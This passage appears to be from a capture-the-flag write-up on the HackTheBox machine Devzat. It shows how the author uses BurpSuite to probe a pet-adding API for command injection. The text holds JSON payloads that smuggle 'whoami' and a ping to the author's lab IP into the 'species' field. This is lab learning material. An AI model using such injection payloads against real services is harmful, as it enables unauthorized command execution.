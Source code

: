 <br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_14.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_15.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_16.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_17.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I am going to use **BurpSuite** to capture the traffic to the web server, to see if any attacks can be performed or find any misconfiguration. When I see the content of the packet sent, I am struck by the amount of parameters used, it seems to me that some are missing, but I will use the **Repeater** tool to analyze it better.

```bash
burpsuite &>/dev/null & disown
```

<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_18.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_19.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_20.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>

If I send the request with only one parameter, the pet can be added, I try injecting some command but it doesn't work. If I add one more parameter (**species**), it also works, and if I now try injecting a command, I get what I expected.

```java
{"name":"test"}
{"name":"test;whoami"}
{"name":"test","species":"Cat;whoami"}
```

```bash
tcpdump -i tun0 icmp -n
```

```java
{"name":"test","species":"Cat; ping -c 1 10.10.14.15"}
```
